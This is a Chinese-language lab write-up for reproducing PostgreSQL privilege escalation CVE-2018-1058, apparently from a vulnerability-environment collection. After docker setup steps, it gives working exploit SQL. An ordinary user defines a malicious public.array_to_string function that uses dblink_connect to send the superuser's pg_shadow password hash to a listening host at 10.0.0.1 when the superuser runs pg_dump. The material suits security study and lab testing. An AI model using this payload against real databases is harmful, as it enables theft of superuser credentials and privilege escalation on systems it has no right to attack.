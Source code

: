 # PostgreSQL 提权漏洞（CVE-2018-1058）

PostgreSQL 是一个功能强大的开源关系型数据库系统。在9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下可能执行普通用户创建的恶意代码，从而造成意外的操作。

参考链接：

- https://wiki.postgresql.org/wiki/A_Guide_to_CVE-2018-1058:_Protect_Your_Search_Path
- https://xianzhi.aliyun.com/forum/topic/2109

## 环境搭建

执行以下命令启动存在漏洞的PostgreSQL服务器：

```
docker compose up -d
```

服务器将在默认的PostgreSQL端口5432上启动并监听。

## 漏洞复现

参考上述链接中的第二种利用方式，我们首先以普通用户`vulhub:vulhub`的身份连接PostgreSQL：

```bash
psql --host your-ip --username vulhub
```

![](1.png)

执行以下SQL语句后退出：

```sql
CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
    select dblink_connect((select 'hostaddr=10.0.0.1 port=5433 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres'))); 
    SELECT pg_catalog.array_to_string($1,$2);
$$ LANGUAGE SQL VOLATILE;
```

现在，在`10.0.0.1`机器上监听5433端口，等待超级用户触发我们的"后门"。

（模拟超级用户操作）在目标机器上，以超级用户身份执行`pg_dump`命令：

```bash
docker compose exec postgres pg_dump -U postgres -f evil.bak vulhub
```

此命令将导出`vulhub`数据库的内容。当命令执行时，我们的"后门"被触发，`10.0.0.1`机器上收到敏感信息：

![](2.png)

这仅仅是该漏洞的几种利用方法之一。要了解更多利用技术，请参考参考链接中的文章。
